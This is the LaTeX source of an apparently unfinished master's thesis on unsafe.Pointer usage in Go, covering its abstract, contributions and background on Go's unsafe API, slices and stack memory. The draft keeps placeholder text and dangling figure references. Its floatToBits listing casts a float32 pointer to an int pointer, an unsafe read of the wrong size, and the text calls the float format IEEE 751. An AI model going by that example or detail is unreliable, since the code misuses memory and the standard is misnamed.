\PassOptionsToPackage{table}{xcolor}

\documentclass[
    english,
    ruledheaders=section,
    class=report,
    thesis={type=master},
    accentcolor=9c,
    custommargins=geometry, % true ist default
    marginpar=false,
    %BCOR=8mm, % Bindekorrektur, falls notwendig
    parskip=half-,
    fontsize=11pt,
    logofile=assets/images/logos/tuda_logo,
]{styles/tuda-ci/tudapub}

%% configuration and packages
%% Typography configuration
%% =====================================================================================================================

%% define margins ------------------------------------------------------------------------------------------------------

\geometry{left=2.7cm, right=2.2cm, top=2.2cm, bottom=3cm}

%% language ------------------------------------------------------------------------------------------------------------

\usepackage[main=english, ngerman]{babel}

%% colors --------------------------------------------------------------------------------------------------------------

\usepackage{color}

\definecolor{verylightgray}{RGB}{240,240,240}
\definecolor{darkgreen}{RGB}{20, 150, 20}
\definecolor{fuchsia}{rgb}{1.0, 0.0, 1.0}

%% paragraph settings --------------------------------------------------------------------------------------------------

\usepackage{setspace}
\setlength{\parindent}{0em}
\setlength{\parskip}{0.4em}
\setstretch{1.1}

%% quotes --------------------------------------------------------------------------------------------------------------

\usepackage[autostyle]{csquotes}

%% enums and itemizes --------------------------------------------------------------------------------------------------

\usepackage{enumitem}

%% TOC and bibliography styles -----------------------------------------------------------------------------------------

\usepackage[none]{tocbibind}

%% Acronyms / abbreviations configuration
%% =====================================================================================================================

\usepackage[acronym]{glossaries}

\makeglossaries

%% Figures configuration
%% =====================================================================================================================

%% Figure-related packages ---------------------------------------------------------------------------------------------

\usepackage{graphicx}
\usepackage{adjustbox}

%% Margin setup --------------------------------------------------------------------------------------------------------

\setlength\intextsep{18pt}

%% Captions ------------------------------------------------------------------------------------------------------------

\usepackage[justification=centering]{caption}

\usepackage{varwidth}
\DeclareCaptionFormat{myformat}{%
% #1: label (e.g. "Table 1")
% #2: separator (e.g. ": ")
% #3: caption text
    \begin{varwidth}{\linewidth}%
        \centering
        #1#2#3%
    \end{varwidth}%
}

\captionsetup{format=myformat}

%% Subfigures ----------------------------------------------------------------------------------------------------------

\usepackage{subfigure}

%% Tikz ----------------------------------------------------------------------------------------------------------------

\usepackage{tikz}
\usepackage{tikzscale}
\usepackage{pgfplots}

\DeclareUnicodeCharacter{2212}{−}

\usepgfplotslibrary{groupplots,dateplot}
\usetikzlibrary{patterns,shapes.arrows}

\pgfplotsset{compat=newest}

%% Tables configuration
%% =====================================================================================================================

\usepackage{multicol}
\usepackage{booktabs}

\usepackage{tabularx}
\usepackage{longtable}
\usepackage{supertabular}

%% Listings configuration
%% =====================================================================================================================

%% Go syntax highlighting ----------------------------------------------------------------------------------------------

\usepackage{styles/listings-golang}

\lstset{
    frame=L,
    rulecolor=\color{black},
    %backgroundcolor=\color{verylightgray},
    basicstyle=\footnotesize\ttfamily,
    columns=fullflexible,
    keywordstyle=\color{blue},
    numbers=left,
    numbersep=5pt,
    numberstyle=\footnotesize\noncopynumber,
    showstringspaces=false,
    stringstyle=\color{darkgreen},
    tabsize=4,
    language=Golang,
    xleftmargin=45pt,
    %xrightmargin=40pt,
    framexleftmargin=22pt,
    framexrightmargin=5pt,
    framexbottommargin=0pt
}

\usepackage{accsupp}

\newcommand{\noncopynumber}[1]{
    \BeginAccSupp{method=escape,ActualText={}}
    #1
    \EndAccSupp{}
}

%% Configuration for the styling of research questions
%% =====================================================================================================================

%% Boxes for RQ answers ------------------------------------------------------------------------------------------------

\usepackage{morewrites}
\usepackage{tcolorbox}
%% Utility functions and configuration
%% =====================================================================================================================

%% Todo notes ----------------------------------------------------------------------------------------------------------

\newcommand{\todo}[1]{{\color{red}{\textbf{TODO:}~#1}}}

\newcommand{\jl}[1]{{\color{fuchsia}\textbf{Johannes:}~#1}}
\newcommand{\lb}[1]{{\color{blue!60!black}\textbf{Lars:}~#1}}
\newcommand{\aw}[1]{{\color{green!60!black}\textbf{Anna:}~#1}}

%% Number checking -----------------------------------------------------------------------------------------------------

\newcommand{\checkNum}[1]{{\textcolor{blue}{#1}}}

%% Macros that get replaced by content, allowing consistent naming and quick refactoring
%% =====================================================================================================================

%% Names ---------------------------------------------------------------------------------------------------------------

\newcommand{\unsafe}{\textit{unsafe}}

\newcommand{\toolGeiger}{\textit{go-geiger}}
\newcommand{\toolSafer}{\textit{go-safer}}
\newcommand{\toolVet}{\textit{go vet}}
\newcommand{\toolGosec}{\textit{gosec}}
\newcommand{\toolCargoGeiger}{\textit{cargo geiger}}
\newcommand{\toolCryptolint}{\textit{cryptolint}}

\newcommand{\github}{\textit{GitHub}}
\newcommand{\zenodo}{\textit{Zenodo}}

\newcommand{\goFuse}{\textit{go-fuse}}

%% Numbers for emprical study in go-geiger evaluation ------------------------------------------------------------------

\newcommand{\projsTotal}{\checkNum{500}}
\newcommand{\projsAnalyzed}{\checkNum{343}}
\newcommand{\projsWithoutModules}{\checkNum{150}}
\newcommand{\projsNotCompiled}{\checkNum{seven}}

\newcommand{\packagesAnalyzed}{\checkNum{62,025}}
\newcommand{\packagesAnalyzedRounded}{\checkNum{62,000}}

\newcommand{\uniqueUnsafeFindings}{\checkNum{199,496}}

\newcommand{\projsForLabeledCodeSnippets}{\checkNum{ten}}
\newcommand{\numberLabeledCodeSnippets}{\checkNum{1,400}}
\newcommand{\numberLabeledCodeSnippetsApp}{\checkNum{1,000}}
\newcommand{\numberLabeledCodeSnippetsStd}{\checkNum{400}}

\newcommand{\unsafeProjects}{\checkNum{131}}
\newcommand{\percentageUnsafeProjects}{\checkNum{38.19\%}}
\newcommand{\percentageUnsafeProjectsRounded}{\checkNum{38\%}}
\newcommand{\percentageUnsafeDependenciesRounded}{\checkNum{87\%}}
\newcommand{\unsafeTransitiveWithDependencies}{\checkNum{312}}
\newcommand{\percentageUnsafeTransitiveWithDependencies}{\checkNum{90.96\%}}
\newcommand{\percentageUnsafeTransitiveWithDependenciesRounded}{\checkNum{91\%}}
\newcommand{\unsafePackages}{\checkNum{3,388}}
\newcommand{\percentageUnsafePackages}{\checkNum{5.5\%}}

\newcommand{\averageUnsafeImportDepth}{\checkNum{3.08}}
\newcommand{\averageUnsafeImportDepthRounded}{\checkNum{3}}
\newcommand{\stdUnsafeImportDepth}{\checkNum{1.62}}
\newcommand{\averageGeneralImportDepth}{\checkNum{3.04}}

\newcommand{\levelZeroImportedUnsafePackagesCount}{\checkNum{51}}
\newcommand{\levelZeroImportedUnsafePackagesShare}{\checkNum{1.5\%}}
\newcommand{\levelOneImportedUnsafePackagesCount}{\checkNum{496}}
\newcommand{\levelOneImportedUnsafePackagesShare}{\checkNum{14.6\%}}

\newcommand{\sysModuleVersions}{\checkNum{67}}
\newcommand{\sysModuleLeastUnsafe}{\checkNum{315}}
\newcommand{\sysModuleMostUnsafe}{\checkNum{440}}
\newcommand{\sysModuleUnsafeIncrease}{\checkNum{+39.7\%}}
\newcommand{\sysModuleUnsafeIncreaseRounded}{\checkNum{40\%}}

%% Numbers for pull requests fixing bugs -------------------------------------------------------------------------------

\newcommand{\numberPRs}{\checkNum{14}}
\newcommand{\numberPRsMerged}{\checkNum{10}}
\newcommand{\numberBugsFixed}{\checkNum{64}}
\newcommand{\numberBugsFixedRounded}{\checkNum{60}}
\newcommand{\numberBugsMerged}{\checkNum{59}}
\newcommand{\fractionBugsMerged}{\checkNum{92\%}}

%% Numbers for go-safer evaluation

\newcommand{\goSaferEvaluationDatasetGosaferAccuracy}{\checkNum{95.5\%}}
\newcommand{\goSaferEvaluationPackagesGosaferAccuracy}{\checkNum{99\%}}



\begin{document}

%% configuration that has to be inside document
%% Acronyms / abbreviations definitions
%% =====================================================================================================================

\newacronym{ABI}{ABI}{Application Binary Interface}
\newacronym{API}{API}{Application Programming Interface}
\newacronym{ASLR}{ASLR}{Address Space Layout Randomization}
\newacronym{AST}{AST}{Abstract Syntax Tree}

\newacronym{CFG}{CFG}{Control Flow Graph}
\newacronym{CLI}{CLI}{Command Line Interface}
\newacronym{CI}{CI}{Continuous Integration}
\newacronym{CSV}{CSV}{Comma-Separated Values}

\newacronym{DEP}{DEP}{Data Execution Prevention}
\newacronym{DNS}{DNS}{Domain Name System}

\newacronym{EA}{EA}{Escape Analysis}
\newacronym{ECB}{ECB}{Electronic Code Book}

\newacronym{FFI}{FFI}{Foreign Function Interface}
\newacronym{FUSE}{FUSE}{Filesystem in Userspace}

\newacronym{GC}{GC}{Garbage Collector}

\newacronym{HTTP}{HTTP}{Hypertext Transport Protocol}

\newacronym{IDE}{IDE}{Integrated Development Environment}

\newacronym{MITM}{MITM}{Man in the middle}

\newacronym{OS}{OS}{Operating System}

\newacronym{RAM}{RAM}{Random Access Memory}
\newacronym{RIP}{RIP}{Return Instruction Pointer}
\newacronym{ROP}{ROP}{Return Oriented Programming}

\newacronym{VCS}{VCS}{Version Control System}


%% thesis cover page and information
\title{Identification and Analysis of unsafe.Pointer Usage Patterns in Open-Source Go Code}
\subtitle{It's dangerous to Go alone. Take *this!\\~}
\author{Johannes Tobias Lauinger}
\reviewer{Prof. Dr.-Ing. Mira Mezini \and Anna-Katharina Wickert, M.Sc. \and Dr. rer. nat. Lars Baumgärtner}
\department{inf}
\institute{Software Technology Group}
\submissiondate{\today}
\examdate{\today}
%\tuprints{urn=1234,printid=12345}
\dedication{To fritz, without which none of this\\would have happened.}

\Metadata{
    title={Identification and Analysis of unsafe.Pointer Usage Patterns in Open-Source Go Code},
    author={Johannes Tobias Lauinger}
}

\maketitle

%% abstract and Zusammenfassung
\chapter*{Abstract}

After \checkNum{one decade} since its first published version, the Go programming language has become a popular and
widely used systems programming language.
It aims to achieve thorough memory and thread safety by using compile-time measures such as a strict type system that
prevents invalid memory access.
However, there is also the \unsafe{} package which allows developers to deliberately circumvent this safety net.
There are a number of legitimate use cases for doing this, for example a low-level network protocol implementation that
needs access to the raw byte representation of some data, or an in-place type conversion saving reallocation costs to
improve efficiency.

Misusing the \unsafe{} API can however lead to security vulnerabilities such as buffer overflow and use-after-free bugs.
This work contributes an analysis of \unsafe{} usage patterns with respect to a security context.
It reveals possible code injection and information leak vulnerabilities in proof-of-concept code as well as common code
usages from real-world code.

To assess the risk of \unsafe{} code in their applications, this work presents \toolGeiger{}, a novel tool to help
developers quantify \unsafe{} usages not only in their project itself but including its dependencies.
Using \toolGeiger{}, we conducted a study on \unsafe{} usage in the top \projsTotal{} most popular open-source Go
projects on \github{}, including a manual study of \numberLabeledCodeSnippets{} individual code samples on how \unsafe{}
is used and for what purpose.
The study shows that \percentageUnsafePackages{} of packages imported by the projects using the Go module system use
\unsafe{}.
\percentageUnsafeProjects{} of the projects use \unsafe{} directly, but \percentageUnsafeTransitiveWithDependencies{}
include \unsafe{} usages through any of their dependencies.
A replication and comparison of a concurrent study by Costa et al.~\cite{costa2020} matches these results.

This work further presents \toolSafer{}, a novel static code analysis tool that helps developers to identify
\checkNum{two} dangerous and common misuses of the \unsafe{} API which were previously undetected with existing tools.
Using \toolSafer{}, we identified \numberBugsFixed{} bugs in real-world code and submitted patches to the maintainers.
An evaluation of the tool shows \goSaferEvaluationDatasetGosaferAccuracy{} accuracy on my data set of labeled \unsafe{}
usages, and \goSaferEvaluationPackagesGosaferAccuracy{} accuracy on a set of manually inspected open-source Go packages.


\chapter*{Zusammenfassung}

Nach \checkNum{einem Jahrzehnt} seit der ersten veröffentlichten Version ist die Programmiersprache Go heute eine
beliebte und weit verbreitete Systemprogrammierungssprache.
Sie strebt Speicher- und Threadsicherheit durch Compiler-Maßnahmen wie ein striktes Typsystem, das
ungültige Speicherzugriffe verhindert, an.
Es gibt allerdings ebenfalls das \unsafe{} Package, eine API die es Entwickler*innen erlaubt, diese
Maßnahmen zu umgehen.
In manchen Fällen kann dies gerechtfertigt sein, beispielsweise bei der Implementierung eines
Netzwerkprotokolls, das direkten Zugriff auf die konkreten Daten benötigt, oder zur Konvertierung von Daten in einen
anderen Typ, ohne diese im Speicher zu kopieren, um so die Effizienz des Programms zu steigern.

Eine falsche Benutzung der \unsafe{} API kann jedoch zu Sicherheitsproblemen wie Buffer Overflows und Use-After-Frees
führen.
Diese Arbeit analysiert Verwendungsmuster von \unsafe{} Code im Hinblick auf Sicherheitsrisiken.
Dabei treten mögliche Code Injection und Information Leak Verwundbarkeiten sowohl in Proof-of-Concepts als auch in
realem Anwendungscode zu Tage.

Um die Risiken durch \unsafe{} Code in Anwendungen abzuschätzen, stellt diese Arbeit \toolGeiger{} vor, ein neues
Werkzeug das Entwickler*innen dabei hilft, \unsafe{} Nutzungen nicht nur in ihren Projekten sondern auch in deren
Abhängigkeiten zu finden.
Mit \toolGeiger{} führen wir eine Studie zur Nutzung von \unsafe{} in den Top \projsTotal{} beliebtesten Open-Source Go
Projekten auf \github{}, inklusive einer manuellen Analyse von \numberLabeledCodeSnippets{} individuellen Codestücken
in Bezug darauf wie und zu welchem Zweck \unsafe{} benutzt wird.
Die Studie zeigt, dass \percentageUnsafePackages{} der Packages, die von Projekten die das Go Modules System
unterstützen, importiert werden, \unsafe{} verwenden.
\percentageUnsafeProjects{} der Projekte nutzen \unsafe{} direkt, und \percentageUnsafeTransitiveWithDependencies{}
enthalten \unsafe{} Code durch ihre Abhängigkeiten.
Eine Replikation sowie ein Vergleich mit einer zeitgleichen Studie von Costa et al.~\cite{costa2020} bestätigt diese
Ergebnisse.

Weiterhin präsentiert diese Arbeit \toolSafer{}, ein neues statisches Analysewerkzeug, das Entwickler*innen hilft,
\checkNum{zwei} gefährliche und häufig vorkommende inkorrekte Verwendungen der \unsafe{}, die mit bisher existierenden
Tools nicht gefunden werden, zu identifizieren.
Mittels \toolSafer{} konnten wir \numberBugsFixed{} Fehler in realem Code finden und entsprechende Patches einreichen.
Eine Evaluation des Tool ergibt eine Accuracy von \goSaferEvaluationDatasetGosaferAccuracy{} auf meinem Datensatz von
\unsafe{} Codezeilen, und \goSaferEvaluationPackagesGosaferAccuracy{} Accuracy auf händisch analysierten Open-Source
Go Packages.


%% acknowledgments
\chapter*{Acknowledgments}

This thesis was written at Technische Universität Darmstadt under the supervision of Prof. Dr.-Ing. Mira Mezini,
Dr. rer. nat. Lars Baumgärtner, and Anna-Katharina Wickert, M.Sc.
Parts of this work have been submitted as a research paper titled "Uncovering the Hidden Dangers: Finding Unsafe Go Code
in the Wild", which is accepted at the 19th IEEE International Conference on Trust, Security and Privacy in
Computing and Communications (IEEE TrustCom 2020)~\cite{lauinger2020}.
I explicitly acknowledge the contributions of the co-authors Lars Baumgärtner, Anna-Katharina Wickert, and Mira Mezini.
I made sure to properly cite all relevant prior and concurrent work as usual with the standards on scientific ethics
to clearly show which contributions are derived from the work of other people and which are mine.

I would like to thank Lars, Anna, and Mira for their excellent work supervising this thesis.
I could not imagine having had any better support during the past months.
Our regular meetings have had priceless value for the success for this work.
Especially, I want to thank Anna for restoring my motivation in challenging times, and Lars for his honest and
demanding, but always very helpful feedback.

In addition, I want to thank my family for giving me both moral and financial support throughout my entire studies,
always believing in me and having my back, and my girlfriend for cheering me up even in the most stressful and hard
days.
In fact especially in those days.
Finally, a big thank you to my friends who have made the past years at university the great time that it has been, Timo
for letting me switch offices for a couple of days, and Anna, John, Tim, Tobias, and Yvonne.


%% table of contents
\tableofcontents

%% content chapters
%% -----------------------------------------------------------------------------

\chapter{Introduction}\label{ch:introduction}


%% -----------------------------------------------------------------------------

\section{Motivation}\label{sec:motivation}

In today's modern society, ...

Modern programming languages like Rust and Go have mechanisms to protect potential
unsafe usages, e.g., dereferences of raw pointers or modifying static variables. Thus, it is
recommended to avoid unsafe usages. However, if a developer wants to avoid unsafe
usages and potential security vulnerabilities caused by these usages, they do not only need
to check their code but also their dependencies.

To provide a developer the power to understand the unsafe usages within their code base,
tools like cargo-geiger~\cite{cargogeiger} exists. Unfortunately, such a tool does not exist by today for Go.
Thus, an in-depth analysis of how many Go projects include direct and indirect unsafe
usages and if these projects are vulnerable does not exist, e.g., to buffer overflows~\cite{larochelle2001, alnaeli2017, wang2020}.
Within this work, the aim is to develop a tool, probably based on go vet~\cite{govet}, that can identify
unsafe usages in Go projects - similar to cargo-geiger. Based on this tool, the thesis should
evaluate how common unsafe usages in Go are and try to analyze if vulnerabilities caused
by unsafe usages exist.

\begin{figure}
    \centering
    
\includegraphics[width=4cm]{assets/images/uml}
    \caption{Sample UML Diagram}
    \label{fig:uml_example}
\end{figure}



%% -----------------------------------------------------------------------------

\section{Contributions}\label{sec:contributions}

The contributions of this thesis are:

\begin{enumerate}
    \item A large-scale study of unsafe code usage in the 500 most popular open-source Go projects,
    including the identification of (three) main areas of danger
    \item A small-scale, in-depth study of 1000 application code and 400 standard library snippets, used in 10
    selected projects, yielding a two-dimensional classification of usages and valuable insight into how and for what
    purpose unsafe code is used in Go applications
    \item A thorough analysis of the problems and consequences of unsafe code patterns with respect to a security
    context
    \item The submission of (14) pull requests with fixes to (62) previously vulnerable code snippets in open-source Go
    libraries, (10) of which have already been merged
    \item An open-source tool to identify unsafe usages in Go code including its dependencies
    \item An open-source, Go Vet-style, linter tool to find (two) unsafe usage patterns of \texttt{unsafe.Pointer}
    that were previously uncaught with existing tools
    \item (An IDE integration of these tools using plugins for JetBrains GoLand and Eclipse)
\end{enumerate}



%% -----------------------------------------------------------------------------

\section{Outline}\label{sec:outline}

Outdated.

This thesis is structured as follows: Chapter 2 gives background information on the motivation
and consequences of the safe and unsafe code language features, as well as its implementation
in the Go programming language.

Chapter 3 describes the dependency management system found in modern languages, specifically
the Go module system with respect to open source software.

Chapter 4 contains the design and implementation of a Go static analysis tool which can identify
unsafe code usages in the package as well as its dependencies.

Chapter 5 compares the analysis tool to related work on the Rust programming language and the
more general OWASP dependency checker.

Chapter 6 analyzes possible vulnerabilities caused by unsafe code usages, specifically with
respect to cryptographic APIs.

Chapter 7 contains a survey and analysis of the top 500 most popular open source Go projects
with respect to their usage of unsafe code in the project or its dependencies. It also has an
analysis of identified security vulnerabilities.

Finally, chapter 8 concludes the work with a discussion of the results and possible future work.
%% ---------------------------------------------------------------------------------------------------------------------

\chapter{Background}\label{ch:background}


%% ---------------------------------------------------------------------------------------------------------------------

\section{Go Unsafe API}\label{sec:background:unsafe-api}

The memory safety measures described in the previous section prevent many of the bugs typical to systems programming
languages.
However, they also take away some flexibility from the developer.
There are legitimate use cases where direct access to the raw memory is required, for example when implementing a
device driver, a network protocol, or an application with tight constrains on resources which needs to convert between
different types without allocating additional memory.
Many memory-safe programming languages like Go, and also Rust, Nim, or even Java offer ways to circumvent the safety
measures provided by the language for those purposes.
In the case of Go, there is the \unsafe{} package~\footnote{\url{https://golang.org/pkg/unsafe}}, an \acrshort{API} that
allows developers to use raw pointers with all their benefits and dangers.

\begin{lstlisting}[language=Golang, label=lst:unsafe-api, caption=\textit{Unsafe} package API]
package unsafe

type Pointer

func Alignof(x ArbitraryType) uintptr
func Offsetof(x ArbitraryType) uintptr
func Sizeof(x ArbitraryType) uintptr
\end{lstlisting}

Listing~\ref{lst:unsafe-api} shows the \acrshort{API} of this package.
It contains \checkNum{three} functions \textit{Sizeof}, \textit{Alignof}, and \textit{Offsetof} (Lines~5--7),
as well as the type \textit{Pointer} (Line 3).
The \textit{unsafe.Pointer} is the most important package member.
It is a pointer type in the sense that the garbage collector follows it to determine live references, but apart from
that the normal restrictions for memory safety do not apply.
In particular, unsafe pointers can be converted to and from any other pointer type, allowing arbitrary casts between
any type.
Furthermore, they can be converted to and from \textit{uintptr} values, which is an integer type with sufficient size
to store pointers on the specific target architecture of the program.
Since \textit{uintptr} values behave like normal integer variables, they can be used in arithmetic expressions.
Therefore, unsafe pointers can also be used to achieve pointer arithmetic.
With \textit{unsafe.Pointer}, developers can achieve the same flexibility as with raw \textit{void*} pointers in C.

Listing~\ref{lst:unsafe-examples} shows examples of both \textit{unsafe.Pointer} features.
The \textit{floatToBits} function (Line~3) illustrates how the variable \textit{x} of type \textit{float32} is first
cast to an unsafe pointer and then to a value of type \textit{int} (Line~4).
Since the unsafe conversion rules only allow arbitrary casts between any pointer type, \textit{x} is first converted
into a pointer value and the resulting \textit{int} pointer is dereferenced before returning the final value.
This conversion yields the raw bits of the floating point value stored using the IEEE 751 format.
It would be impossible using the normal Go conversion rules because \textit{float32} and \textit{int} are incompatible
types.
The \textit{secondByte} function (Line~7) shows how pointer arithmetic is used to manually iterate over an array type.
The function expects an array of size five bytes and returns the second byte.
Instead of direct indexing, it achieves this by obtaining the address of the array as a \textit{uintptr} value, adding
1 and then casting the resulting address to a \textit{byte} value, again taking care of dereferencing the resulting
pointer type (Line~8).

\begin{lstlisting}[language=Golang, label=lst:unsafe-examples, caption=Usage examples of the Go \textit{unsafe} API]
import "unsafe"

func floatToBits(x float32) int {
    return *(*int)(unsafe.Pointer(&x))
}

func secondByte(b [5]byte) byte {
    return *(*byte)(unsafe.Pointer(uintptr(unsafe.Pointer(&b)) + 1))
}
\end{lstlisting}

It is important to note that while \textit{unsafe.Pointer} is a pointer type, \textit{uintptr} is not.
This means that addresses that are stored in variables of type \textit{uintptr} are not treated as references by the
garbage collector, and thus values referenced by it can get freed although there are still live references.
Possible consequences of this are described in Chapter~\ref{ch:unsafe-security-problems}.
Other dangers include that accessing raw bytes of data structures exposes low-level implementation details such as
the alignment of structure fields to word-bound addresses, which can change with future versions of the Go compiler or
runtime and thus break programs when they are not carefully updated later on.
In general, using the \unsafe{} package must be done with caution and should be avoided whenever possible.

The other functions of the \unsafe{} packages are evaluated at compile time and can be used to gain knowledge about
the size, alignment, or offset of a field in a structure type relative to the start of the structure.
These can be necessary when dealing with the direct byte representation of structure types such as when implementing
network protocols or device drivers.
In this thesis the term \unsafe{} usage refers to all members of the \unsafe{} package as well as the slice and string
header structures that are described in more detail in Chapter~\ref{ch:unsafe-security-problems}.

%% ---------------------------------------------------------------------------------------------------------------------

\section{Slices and Strings in Go}\label{sec:background:slices}

Slices in Go are an array data type consisting of an underlying memory area and information about length and capacity.
The length indicates how many elements are currently contained in the slice, and the capacity denotes the allocated
space in memory.
When a subset of the slice is taken by specifying start and end indices, then a new slice is created that uses the same
underlying data array as the original one, and might have a capacity longer than its length if there are further
elements in the original slice after the end of the newly-taken subslice.
It is possible to increase the size of the new slice up to its capacity, but the size can never be larger than the
capacity.
When new elements are added to a slice using the \textit{append} function, then a new slice is created too which has a
higher length than the previous.
The runtime reuses the underlying data array of the original slice as well if its capacity is big enough, or allocates
a new array for the new slice if it is not.
Strings in Go are read-only \textit{[]byte} slices.
Usually they are encoded in UTF-8, but this is not required.
The length of a string is always the number of bytes needed to store its encoded form, which is often not the same as
the number of characters in the string.
It is important that strings are immutable because string literals are placed in a constant data section of the binary
when the code is compiled, meaning they are usually located within a read-only memory page and mutating them would cause
the program to receive a segmentation fault signal and crash.

\begin{lstlisting}[language=Golang, label=lst:reflect-header-types, caption=Reflect slice and string header types and API]
package reflect

type SliceHeader struct {
    Data uintptr
    Len int
    Cap int
}

type StringHeader struct {
    Data uintptr
    Len int
}
\end{lstlisting}

It is possible to access the internal structure of slices and strings by casting them to their header representation
using the \unsafe{} \acrshort{API}.
Listing~\ref{lst:reflect-header-types} shows the \acrshort{API} of these header types.
As the name suggests, slices correspond to the \textit{SliceHeader} type (Line~3), while strings are associated with the
\textit{StringHeader} type (Line~9).
The \textit{Len} fields (Lines~5 and ~11) denote the current length of the slice or string, and finally the
\textit{SliceHeader} type has an additional \textit{Cap} field (Line~6).
It stores the allocated capacity of the slice, which is the available size it can grow to until its data array must be
reallocated when new elements are added.
Notice that the reference to the underlying data array has the type \textit{uintptr} in both types (Lines~4 and~10),
therefore it is not inherently treated as a pointer type by the garbage collector (\acrshort{GC}).
Instead, there is a special case in the Go runtime that recognizes slices and strings and follows the address stored in
the \textit{Data} field to prevent it from getting collected.
To prevent these dangers, many programming languages provide features to achieve a higher level of memory safety.
There can be compile-time or static measures, runtime or dynamic measures, or a combination of both.
The Go programming language uses automatic memory management, which means that developers do not need to manually
allocate and free memory for data structures, instead a value is simply declared and the compiler adds the code to
properly allocate the appropriate space in memory.
Furthermore, the Go type system prevents invalid conversions between incompatible types, such as data structures with
different size.
Buffers can be expressed either as arrays with fixed length, or slices.
In the case of arrays, the type system encodes the length of the buffer as a type information, for example instances
of \textit{[10]byte} and \textit{[20]byte} have fundamentally different types and can not be converted into each other
or passed to a function that expects a buffer of different length.
In contrast, in C it would be common to pass around a pointer to the beginning of the buffer, which would not carry
information about the length.
In the case of slices, they are represented by a header structure containing information about the allocated size as
well as a pointer to the underlying data, which will be described in slightly more detail in
Chapter~\ref{ch:unsafe-security-problems}.
The Go runtime takes care that there can not be any accesses outside the slice bounds.


%% ---------------------------------------------------------------------------------------------------------------------

\section{Memory Management}\label{sec:background:memory}


%% ---------------------------------------------------------------------------------------------------------------------

\subsection{Stack and Heap}\label{subsec:background:memory:stack-heap}

The working memory of a computer, more specifically the Random Access Memory (\acrshort{RAM}) is used to hold both
application data and program instructions.
It is essentially a single string of bytes that each have an increasing address.
To organize this memory effectively, it is divided into memory pages that can get mapped into virtual memory sections.
These sections and pages are managed by the operating system (\acrshort{OS}).
Virtual memory allows each process to address its data regardless of its actual position in the physical memory.
When a process is loaded by the \acrshort{OS}, its execution will always start at the same virtual address which is
stored in the executable file.
The \acrshort{OS} will then take care of translating the virtual address into an actual absolute memory address.
The virtual memory of a process is further divided into different functional areas, most importantly the text sections,
the heap, and the stack.

\begin{figure}[htp!]
    \centering

    \begin{subfigure}[t]{0.45\textwidth}
        \centering
        
\includegraphics[height=5.5cm]{assets/figures/chapter2/memory-layout.pdf}
        \caption{Process memory layout}
        \label{subfig:memory:memory-layout}
    \end{subfigure}
    \begin{subfigure}[t]{0.45\textwidth}
        \centering
        
\includegraphics[height=5.5cm]{assets/figures/chapter2/stack-frame.pdf}
        \caption{Simplified stack frame layout for function in Listing~\ref{lst:stack-example-function}}
        \label{subfig:memory:stack-frame}
    \end{subfigure}

    \caption{Go memory and stack frame layout}
    \label{fig:memory-stack}
\end{figure}

\begin{lstlisting}[language=Golang, label=lst:stack-example-function, caption=Example function to illustrate Go stack frames]
func add(a , b int) (sum int) {
    x := a + b
    sum := x + 42
    return sum
}
\end{lstlisting}


The text sections contain the machine-readable program instructions.
The heap is a data section that stores data with a lifetime greater than a single function, for example global
variables.
Memory can be allocated there using dedicated runtime functions like \textit{malloc} in C and must be freed after it is
not needed anymore to avoid running out of heap memory.
Finally, the stack is also a data section, but in contrast to the heap it is used for local variables of functions, as
well as their arguments and possibly return values.
The stack pointer register (\textit{rsp} in the \textit{amd64} architecture) in the processor stores the current top
of the stack, which is the address of the last value that was added to the stack.
If a new value is pushed, then the stack pointer is decremented and the data can be written to its new address.
It is possible to decrement the stack pointer by any number of bytes to make room for several variables at once, and
then those variables can be accessed by adding a fixed offset to the stack pointer.
Because the active, allocated stack memory is always at addresses equal or higher than the stack pointer, and adding
new data means the value of the stack pointer is reduced, the stack grows from the top of the memory to the bottom.
Figure~\ref{fig:stack} shows a visualization of the concept of pushing data to the stack.

The stack itself is organized in frames.
When a function is called, a new stack frame is created for this function.
The caller function starts setting up the parameters of the callee.
How this is done depends on the specific architecture that the program is run on, as well as the calling convention,
which together form the Application Binary Interface (\acrshort{ABI}).
Figure~\ref{fig:stack-frame-layout} shows an example stack frame for a C function call.
The source code for the function is included in the figure.
The stack frame is using the \textit{amd64} 64-bit Linux calling convention.

The first six parameters of the \textit{example} function are passed in registers, but the last two are pushed on the
stack in reverse order.
Next, the address of the next instruction of the caller function, that is the address that the callee should return
to after it has finished, is saved on the stack.
This allows to chain function calls, including recursion, because returning simply removes the stack frame and jumps
to the saved return address of that frame.
The return address marks the end of the caller stack frame, after that begins the callee stack frame for the new
function.
It starts by saving the current state of the processor registers so that the function can use them for calculations and
later restore their values to the original ones expected by the caller function.
After that, local variables of the function are allocated on the stack.
In this example, they are placed in the order of definition in the source code, but that is not a requirement.
The compiler will decide how to place the local variables and keep track of their addresses as relative offsets to the
stack pointer register.
When the function returns, the stack pointer will be incremented by the size of the callee stack frame, and then the
return address will be fetched and put into the instruction pointer register.
The return value of the function is passed in a register in this example.
In a Go program, returning values can also be achieved using the stack, which the compiler does in the case of multiple
return values.


%% ---------------------------------------------------------------------------------------------------------------------

\subsection{Escape Analysis (EA)}\label{subsec:background:memory:ea}

\acrshort{EA} is used to decide whether a variable can be placed on a function's stack or needs to be allocated on the
heap.
The stack is preferred because there is no explicit deallocation step needed to free the stack memory, instead the stack
frame is removed completely when the function returns as described in Section~\ref{sec:background:memory-safety-layout}.
In \acrshort{EA}, a value is said to escape if references to it can live longer than the current function's lifetime.
If it does escape, then it needs to be allocated on the heap so that when the function has terminated, references that
